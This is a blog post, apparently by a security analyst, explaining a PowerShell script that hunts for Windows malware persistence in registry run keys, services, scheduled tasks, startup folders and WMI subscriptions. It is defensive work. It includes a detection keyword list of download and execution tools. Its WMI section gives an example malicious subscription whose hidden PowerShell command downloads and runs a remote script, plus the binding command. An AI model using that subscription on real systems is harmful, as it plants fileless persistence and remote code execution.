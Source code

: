 ```yaml
---
layout: post
title:  "Powershell For Checking Malware Persistence (All-In-One Script)
date:   2025-06-16 21:00:00 +1000
categories: project
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview
[-----Malware Persistence Checker-----](https://github.com/lvl0socanalyst/Scripts/blob/main/malware_persistence_checker.ps1)

Script that checks for common malware persistence vectors.

Useful when performing analysis on a potentially compromised PC that has been disconnected from the internet. 

Rather than post the whole script I'll just run over and explain the functions/how to use it. 

I'll slowly add function by function. But I'll start with reg keys. Couldn't you just use autoruns? YES. But that's no fun.

Potentially suspicious findings will be dumped in CLI. All results will be whacked into a .txt file
- Therefore, if you don't like the regex or what is marked as 'suspicious' you can change it. Or just view the .txt to see the full output

Script gives the following options:
1. Scan Registry Persistence Keys
2. Scan Service Keys
3. Scan Scheduled Tasks
4. Scan Startup Folders
5. Scan WMI Event Subscriptions
6. Scan Everything 
7. Exit

![PowerShell Script Options](/images/script_photo.png)

### Potentially suspicious indicators

The script outputs all results to a .txt file. However, entries that seem suspicious are plastered onto the CLI. These are the following indicators I came up with for files/commands/flags that can raise a red flag.

Indicators
- ```"AppData", "Temp", "Roaming", "LocalLow", "Public", "Users\\Public", "\.vbs", "\.js", "\.bat", "\.cmd", "\.ps1", "\.scr", "wscript.exe", "cscript.exe", "powershell.exe", "mshta.exe", "rundll32.exe", "cmd.exe", "System32\\Tasks", "Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved", "curl.exe", "wget.exe", "base64", "Invoke-", "DownloadString", "EncodedCommand" ```


### Registry and Windows Service Keys

Registry keys are fileless. Hence why they a common spot for malware payloads to exist. Payloads stored in reg keys are often called later by scheduled tasks or WMI events. 

A malicious registry payload would typically call powershell to download or invoke a payload.

Checks the following registry keys
- HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
- HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\Software\Microsoft\Windows\CurrentVersion\Run
- HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
- HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
- HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

Service keys are also checked for the above indicators. 
- HKLM:\SYSTEM\CurrentControlSet\Services


### Scheduled Tasks
Malware will often create a scheduled task to run at a certain time to give persistence on the host device. This ensures even after a restart or shutdown the beacon can be reinstated.

Scans all scheduled tasks that don't have \Microsoft\ in the path.

Pretty popular persistence vector however is quite well known. One of the first SIEM rules you create should be for alerting on schtasks.exe usage or for tasks here that aren't known.


### Startup Folders
Files that reside here are executed on startup. Much like scheduled tasks a very common area for malware to reside to ensure persistence after a restart/shutdown.

The following startup folders are checked
- AppData\Microsoft\Windows\Start Menu\Programs\Startup
- ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

Malicious files that are set to start on boot here are often named as legitimate Microsoft files and LOLBINs to avoid suspicion.


### WMI Event Subscriptions
WMI subscriptions allow for commands to trigger when a system event occurs. Likewise to reg entries this method is fileless and quite a common method for persistence for more advanced malware.

WMI subscriptions use WQL (Windows Management Instrumentation Query Language) to create conditions on which they should trigger and the action that will occur. WQL uses very similar syntax to SQL, and reads almost like pseudocode. 

An example of a malicious WMI subscription that was used by CozyBear (APT 29).

-----Sets the condition for which the action is triggered (creation of a filter)-----
- ```Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name='explorer.exe'"```

-----Sets the action when the filter is triggered (creation of a consumer)-----
- ```CommandLineTemplate = "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http:cozynoobs.com/minecraft.ps1')"```

-----Binds filter to the consumer (creates condition that runs consumer when filter occurs)
- ```Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments @{ Filter = $filter.__PATH Consumer = $consumer.__PATH }```

That was a very dumbed down version of the actual event subscription used. But you get the idea of how it is structured. A filter is created which in turn when triggered runs the consumer (action) that runs the suspicious commands.

The following subscriptions are checked
- Get-WmiObject -Namespace root\subscription -Class __EventFilter
- Get-WmiObject -Namespace root\subscription -Class __EventConsumer
- Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding